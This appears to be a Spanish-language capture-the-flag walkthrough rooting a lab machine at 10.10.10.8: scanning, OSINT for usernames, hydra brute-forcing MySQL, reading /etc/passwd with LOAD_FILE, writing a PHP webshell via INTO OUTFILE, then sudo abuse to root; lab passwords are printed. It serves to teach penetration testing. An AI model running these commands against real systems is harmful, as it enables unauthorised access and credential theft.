 Hacemos el escaneo de nmap:
![[Pasted image 20240229092650.png]]
Esto es lo que corre por el puerto 80:
![[Pasted image 20240229092717.png]]
Probamos en hacer fuzzing web y vemos un archivo index.php:
![[Pasted image 20240229094609.png]]



Debemos de hacer OSINT de esta imagen, donde tenemos una web que se llama yandex.com:
```bash
https://yandex.com/
```
Donde se puede subir una imagen y nos hace una investigación sobre ella, donde vemos los usuarios beavis y buthead:
![[Pasted image 20240229093159.png]]
Llegados a este punto podemos hacer un ataque de fuerza bruta contra la base de datos MySQL utilizando hydra:
```bash
hydra -t 64 -l beavis -P /usr/share/wordlists/rockyou.txt mysql://10.10.10.8
```
Una vez obtenida la contraseña, vamos a entrar en la base de datos y listamos las databases:
```bash
mysql -h 10.10.10.8 -u beavis -p
rocknroll
```
![[Pasted image 20240229093954.png]]
Y por aquí tenemos dos credenciales:
![[Pasted image 20240229094026.png]]
```bash
beavis:b3@v1$123
butthead:BuTTh3@D!
```
También dentro de la base de datos es posible leer archivos, por ejemplo el /etc/passwd:
```bash
SELECT LOAD_FILE("/etc/passwd");
```
![[Pasted image 20240229094422.png]]
Ahora si apuntamos contra el archivo index.php que veíamos al principio, podemos ver un comentario dentro de dicho archivo con una ruta:
![[Pasted image 20240229094814.png]]
Lo ponemos en el navegador y sale esto:
![[Pasted image 20240229094859.png]]
En este punto, probamos en cargar una webshell desde la base de datos:
```bash
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/M3t4LL1c@/shell.php";
```
![[Pasted image 20240229095007.png]]
Y obtenemos ejecución remota de comandos:
![[Pasted image 20240229095035.png]]
Codificamos el código de la reverse shell:
![[Pasted image 20240229095349.png]]
Ejecutamos el payload y obtenemos la reverse shell:
![[Pasted image 20240229095438.png]]
Y al ejecutar el comando sudo -l vemos que podemos ejecutar batcat como el usuario beavis:
![[Pasted image 20240229095629.png]]
Seguimos las instrucciones de gtfobins y vemos que nos convertimos en el usuario beavis:
![[Pasted image 20240229095717.png]]
![[Pasted image 20240229095725.png]]
Siendo beavis no enumeramos nada más, pero sí podemos convertirnos en el usuario butthead reutilizando sus credenciales obtenidas de la base de datos:
```bash
butthead:BuTTh3@D!
```
![[Pasted image 20240229100105.png]]
Y si de forma autenticada ejecutamos el comando sudo -l como este usuario, vemos que como root podemos ejecutar su:
![[Pasted image 20240229100159.png]]
Y si ejecutamos el comando sudo -u root /usr/bin/su nos convertimos en root:
![[Pasted image 20240229100311.png]]
